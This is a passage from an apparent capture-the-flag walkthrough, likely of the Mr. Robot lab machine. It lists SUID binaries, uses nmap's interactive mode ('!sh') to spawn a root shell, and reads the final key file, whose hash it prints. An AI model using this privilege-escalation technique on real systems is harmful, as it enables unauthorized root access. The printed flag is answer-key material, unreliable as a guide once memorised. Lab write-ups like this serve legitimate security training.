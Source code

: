 ```bash
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

Note nmap appers in the list of programs.
```
/usr/local/bin/nmap
```

From our list of ways to get TTY shells note that nmap, when run in in interactive mode can give us a shell as follows https://netsec.ws/?p=337

>(From within nmap)
>```
>!sh
>```
>


``` 
robot@linux:~$ /usr/local/bin/nmap --interactive 
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> 
```

Spawn a shell

```
nmap> !sh 
!sh
# 
```

The `#` indicates we are now the `root` user. The key is probably stored in the `root` home directory found at `/root`

```
# ls /root
ls /root
firstboot_done  key-3-of-3.txt
```

```
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
